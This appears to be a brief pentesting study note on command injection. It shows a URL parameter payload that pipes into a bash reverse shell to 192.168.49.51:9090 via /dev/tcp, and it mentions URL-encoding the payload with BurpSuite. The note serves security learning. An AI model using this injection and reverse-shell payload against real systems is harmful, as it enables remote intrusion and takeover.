 ```yaml
---
tags:
- cmdInjection
---
```


# CMD Injection.  Encoding payload using urlencode

Payload example:
```
example.com?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```
We need to encode & [[2023090518034747 CMD Injection.  Encoding payload using urlencode#^b0eca3]]

Using BurpSuite: Convert Selection > URL > URL Encode Key Characters.
## References
1. https://www.w3schools.com/tags/ref_urlencode.ASP  ^b0eca3
